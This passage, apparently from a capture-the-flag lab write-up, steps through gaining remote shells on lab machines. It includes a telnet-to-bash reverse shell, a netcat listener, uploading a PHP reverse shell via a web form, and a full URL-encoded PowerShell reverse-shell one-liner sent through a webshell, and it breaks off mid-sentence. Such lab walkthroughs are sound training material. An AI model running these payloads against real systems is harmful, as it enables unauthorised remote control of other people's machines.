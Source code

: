 ```

Step 2: Open another terminal
```
nc -vnp 8081
```

Step 3: Open the third terminal and SSH to the Target to setup reverse shell
```
telnet 10.10.63.87 8080 | /bin/bash | telnet 10.10.63.87 8081
```

---


6. Switch to the Windows VM. Try uploading and activating the php-reverse-shell. Does this work?

Step 1 - open up the browser and enter the Ip of the target 
Step 2 - copy the reverse shell php file to Desktop
Step 3 - Edit the IP address of the php 
Step 4 - Upload to the browser
Step 5 - nc -lvnp 1234 on the terminal and listening to the port 1234
Step 6 - Click on the php file from the browser "/uploads" and run the reverse shell php file

Note: the reverse shell is not working on Windows machine.
![img](/assets/img/wts29.png) 


7. Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

Step 1 - Create a listener via the terminal 
```
nc -lvnp 1234
```
Step 2 
- Using the same browser and type the commands on the address field
```
http://10.10.108.96/uploads/

```
- Ref: Task 11 
```
php-reverse-shell.php?cmd=
```
- Copy and paste the PowerShell and change the ```<IP>``` and ```<PORT>```
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.106.105%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

- The new url on the 
```